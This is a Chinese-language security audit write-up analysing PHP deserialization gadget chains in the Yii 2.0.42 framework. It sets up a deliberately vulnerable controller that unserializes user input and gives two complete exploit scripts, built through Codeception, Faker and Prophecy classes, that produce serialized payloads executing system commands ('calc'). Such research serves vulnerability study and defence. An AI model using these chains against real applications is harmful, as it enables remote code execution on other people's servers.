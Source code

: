 # Yii2.0.42 代码审计

Author: H3rmesk1t

# 环境搭建
> 修改`config\web.php`中的`cookieValidationKey`为任意值来作为`yii\web\Request::cookieValidationKey`的加密值，不设置的话将会发生报错

> 添加一个`Controller`来作为反序列化漏洞的触发点

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# 漏洞分析
> 全局搜索`__destruct()`来寻找反序列化的触发点，查看每个`__destruct()`方法后发现之前许多可以利用的出发点都加上了`__wakeup()`方法来修补反序列化的漏洞

<img src="./images/yii-1.png" alt="">

## POC链-1
> 跟进`vendor\codeception\codeception\ext\RunProcess.php`中的`__destruct()`方法，其会调用`stopProcess()`方法，先对`$this->processes`数组变量进行翻转，由于`$process`变量是可控的，因此可以通过寻找`__call()`方法来进一步寻找利用链

<img src="./images/yii-2.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\ValidGenerator.php`中的`__call()`方法，在 while 语句中存在`call_user_func()`方法，由于`$this->validator`是可控的，所以当`$res`可控时，即可造成命令执行函数的利用，因此需要寻找一个类中的`__call()`方法是返回一个可控的变量值的

<img src="./images/yii-3.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`中的`__call()`方法，其返回值是可控的变量值，成功构成一条闭合的利用链

<img src="./images/yii-4.png" alt="">

### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

### POC链利用流程图
<img src="./images/yii-5.png" alt="">

## POC链-2
> 起始点不变，跟进 `vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`中的`__call()`方法，其会调用一个`reveal()`方法，且`$this->revealer`是可控的

<img src="./images/yii-6.png" alt="">

> 尝试不使用本类的该方法而自动调用其他类中的该方法后发现无法利用，因此跟进本类中的`reveal()`方法，这里`$this->lazyDouble`是可控的，可以赋值为存在`getInstance()`方法的类

<img src="./images/yii-7.png" alt="">

> 跟进`src/Prophecy/Doubler/LazyDouble.php`中的`getInstance()`方法，`$this->double`和`$this->arguments`均可控，此处进步进入if判断的语句都没有区别，最后调用的方法都是一样的，且`$this->doubler`可控，跟进`double()`方法，确认存在该方法的类，再对`$this->doubler`进行实例化类赋值即可，`$this->class`和`$this->interfaces`的赋值需要根据`double()`方法的参数类型来确定

<img src="./images/yii-8.png" alt="">

> 继续跟进`src/Prophecy/Doubler/Doubler.php`中的`double()`方法，先用`ReflectionClass`类构建异常处理类的反射类来避免代码中异常抛出，从而走到调用`createDoubleClass()`方法

<img src="./images/yii-9.png" alt="">

> 继续跟进`Doubler`类中的`createDoubleClass()`方法，这里`$name`和`$node`可以用`DefaultGenerator`类中的`__call()`方法来任意构造，从而进入`create()`方法

<img src="./images/yii-10.png" alt="">

> 跟进`create()`方法，`$node`需要为`Node\ClassNode`类对象，这里利用`eval()`方法可以插入代码执行，还是用同样的方法来使得`$code`可控，实例化为`DefaultGenerator`类对象

<img src="./images/yii-11.png" alt="">

### exp
```php
<?php
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($cmd) {
			$this->default = $cmd;
		}
	}
}

namespace Prophecy\Doubler\Generator {
	use Faker\DefaultGenerator;
	class ClassCreator {
		private $generator;
		public function __construct($cmd) {
			$this->generator = new DefaultGenerator($cmd);
		}
	}
}

namespace Prophecy\Doubler\Generator\Node {
	class ClassNode {}
}

namespace Prophecy\Doubler {
	use Faker\DefaultGenerator;
	use Prophecy\Doubler\Generator\ClassCreator;
	use Prophecy\Doubler\Generator\Node\ClassNode;
	class Doubler {
		private $namer;
		private $mirror;
	    private $creator;
	    public function __construct() {
	    	$this->namer = new DefaultGenerator("H3rmesk1t");
	    	$this->mirror = new DefaultGenerator(new ClassNode());
	    	$this->creator = new ClassCreator("system('calc.exe');");
	    }
	}
}

namespace Prophecy\Doubler {
	use Prophecy\Doubler\Doubler;
	class LazyDouble {
		private $class;
		private $doubler;
	    private $argument;
	    private $interfaces;
	    public function __construct() {
	    	$this->doubler = new Doubler();
	        $this->argument = ["H3rmesk1t" => "H3rmesk1t"];
	        $this->class = new \ReflectionClass('Exception');
	        $this->interfaces[] = new \ReflectionClass('Exception');
	    }
	}
}

namespace Prophecy\Prophecy {
	use Prophecy\Doubler\LazyDouble;
	class ObjectProphecy {
		private $revealer;
		private $lazyDouble;
		public function __construct($cmd) {
			$this->revealer = $cmd;
			$this->lazyDouble = new LazyDouble();
		}
	}
}


namespace Codeception\Extension {
	use Prophecy\Prophecy\ObjectProphecy;
	class RunProcess {
		private $processes;
		public function __construct() {
			$cmd = new ObjectProphecy("H3rmesk1t");
			$this->processes[] = new ObjectProphecy($cmd);
		}
	}
	echo base64_encode(serialize(new RunProcess()));
}
?>
```

### POC链利用流程图
<img src="./images/yii-12.png" alt="">

